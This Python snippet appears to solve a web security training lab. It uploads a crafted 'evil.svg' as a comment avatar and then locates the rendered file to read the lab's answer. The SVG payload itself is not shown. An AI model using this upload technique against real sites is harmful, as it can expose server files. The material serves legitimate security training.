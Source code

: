 ```python
file = {
    'avatar':('evil.svg', open('exp.svg', 'r'), 'image/svg+xml')
}

form_data = {
    'csrf':csrf_token,
    'postId':'5',
    'comment':'test',
    'name':'test',
    'email':'test@test.com',
    'website':'http://test.com'
}

r = s.post(url + '/post/comment',data=form_data, proxies=proxies, verify=False, files=file)
if 'Your comment has been submitted' not in r.text:
    print('[-] Upload failed')
    sys.exit(1)

print('[+] Upload worked')
r = s.get(url + '/post?postId=5', proxies=proxies, verify=False)
match = re.findall(r'/post/comment/avatars\?filename=(\d.png)', r.text)
if match:
    for i in match:
        print(f'[+] Visit https://{HOST}.web-security-academy.net/post/comment/avatars?filename={i} to get answer')
```